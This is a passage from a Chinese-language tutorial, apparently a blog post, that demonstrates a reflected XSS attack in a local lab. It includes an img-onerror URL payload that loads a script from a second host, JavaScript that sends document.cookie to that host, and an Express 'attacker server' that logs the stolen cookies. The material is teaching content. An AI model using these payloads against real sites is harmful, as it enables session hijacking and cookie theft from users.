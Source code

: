如果取消 escape，我们可以看见链接是这样的：

`http://localhost:8081/result?q=<img src=null onerror="var script = document.createElement('script');       script.src = 'http:\/\/localhost:8082/danger';body.appendChild(script);" />`

也就是说，当你进入这个页面的时候，就执行了位于 `localhost:8082/danger` 的脚本。

那么问题来了，为什么要走 img，而不是直接调用 script 标签？

因为使用 innerHTML 的时候，无法动态添加 script 标签并执行。

因此，我们的客户端对 XSS 攻击稍微有一点抗性的嘛...

### 攻击者的攻击脚本

一般来说，就是获取 cookie 并且发送到后台。

但其实能做的事情多了。这里就不一一列举了。

```javascript
// 原生 AJAX 方法
var xhr = new XMLHttpRequest();
xhr.open('get', `http://localhost:8082/attack?q=${document.cookie}`, true);
xhr.send();
xhr.onreadystatechange = function () {
  if (xhr.readyState === 4 && xhr.status === 200) {
    /**
     * 傻逼才会在这里显示攻击成功
     * 我这仅仅出于说明的目的
     */
    console.log('攻击成功！');
  }
}
```

### 攻击者的服务器

然后我们起一个攻击者的服务器，用来处理用户发送的数据。

攻击者的服务器很简单，就是接收请求，然后读取 query string 里面的 cookie 信息。

```javascript
const express = require("express");
const path = require('path');
const app = express();

app.use(express.static("./attack.js"));

app.get("/danger", (req, res) => {
  res.sendFile(path.join(__dirname, './attack.js'));
});

app.get("/attack", (req, res) => {
  // 从 query string 上拿到被攻击者的 cookie
  const { q } = req.query;
  console.log(q);
  res.status(204).end();
});

app.listen(8082, () => console.log("Attacker running on port 8082"));
```
